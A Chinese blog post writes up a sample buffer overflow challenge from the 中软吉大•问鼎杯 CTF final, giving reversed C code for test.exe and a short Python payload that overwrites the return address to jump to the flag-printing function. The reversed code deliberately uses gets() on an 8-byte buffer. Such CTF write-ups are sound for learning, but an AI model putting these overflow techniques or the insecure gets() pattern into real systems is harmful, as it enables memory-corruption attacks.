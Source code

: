 ```yaml
---
title: 中软吉大•问鼎杯决赛样题溢出类
author: Ripples
layout: post
permalink: /%e4%b8%ad%e8%bd%af%e5%90%89%e5%a4%a7%e2%80%a2%e9%97%ae%e9%bc%8e%e6%9d%af%e5%86%b3%e8%b5%9b%e6%a0%b7%e9%a2%98%e6%ba%a2%e5%87%ba%e7%b1%bb/
views:
  - 865
categories:
  - CTF
tags:
  - buffer overflow
  - reversing
  - 中软吉大•问鼎杯
---
```

<p style="text-indent: 2em;">
  题目如下：
</p>

<p style="text-indent: 2em;">
  下载test.exe文件，请想方法找到key。<a href="http://sec.hdu.edu.cn/SecTest/files/6.test.exe">文件下载</a>（500分）
</p>

<p style="text-indent: 2em;">
  首先是逆向，仿写程序如下：
</p>

<!--more-->

<pre class="brush:cpp;toolbar:false">const&nbsp;char&nbsp;password[]&nbsp;=&nbsp;"$1$k3Eadsf$blee.9JxQ75A/dSQSxW3v/";

void&nbsp;authorized()
{
&nbsp;&nbsp;&nbsp;&nbsp;printf("V0RGbGFnPQ==");
&nbsp;&nbsp;&nbsp;&nbsp;printf("{");
&nbsp;&nbsp;&nbsp;&nbsp;printf("%sn",&nbsp;md5("kernel32.GetVesion"));
&nbsp;&nbsp;&nbsp;&nbsp;printf("}");
}

void&nbsp;doit()
{
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;s[8];
&nbsp;&nbsp;&nbsp;&nbsp;printf("please&nbsp;input&nbsp;the&nbsp;password:");
&nbsp;&nbsp;&nbsp;&nbsp;gets(s);
&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(strcmp(md5(s),&nbsp;password)&nbsp;==&nbsp;0)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;authorized();
&nbsp;&nbsp;&nbsp;&nbsp;}
}

int&nbsp;main()
{
&nbsp;&nbsp;&nbsp;&nbsp;doit();
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;0;
}</pre>

<p style="text-indent: 2em;">
  其中V0RGbGFnPQ==为WDFlag=的base64加密后的值。
</p>

<p style="text-indent: 2em;">
  程序是逆向清楚了，但是完全不明白这个题目是想让我们干嘛了，难道说key就是kernel32.GetVesion，那直接逆向就得到了，还要溢出干嘛，并且溢出得到的是md5之后的值，要由md5得到kernel32.GetVesion也不容易吧……
</p>

<p style="text-indent: 2em;">
  不管咋样，还是溢出一个吧，s和doit()的返回地址差了8 bytes，authorized的地址0x00401C40，所以溢出如下：
</p>

<pre class="brush:ps;toolbar:false;">python&nbsp;-c&nbsp;"print&nbsp;&#39;a&#39;&nbsp;*&nbsp;8&nbsp;+&nbsp;&#39;x40x1Cx40x00&#39;"&nbsp;&gt;&nbsp;payload
6.test.exe&nbsp;&lt;&nbsp;payload</pre>

<p style="text-indent: 2em;">
  对于这题，只能说完全不知道想干嘛了，反正是样题，就这样吧～～～
</p>

<p style="text-indent: 2em;">
  <img src="http://geekjayvic.sinaapp.com/wp-content/plugins/wp-ueditor2/ueditor/dialogs/attachment/fileTypeImages/icon_rar.gif" style="line-height: 16px; white-space: normal;" /><a href="http://geekjayvic-wordpress.stor.sinaapp.com/uploads/2014/09/6.test_.exe.zip" style="line-height: 16px; white-space: normal;">6.test.exe.zip</a>
</p>
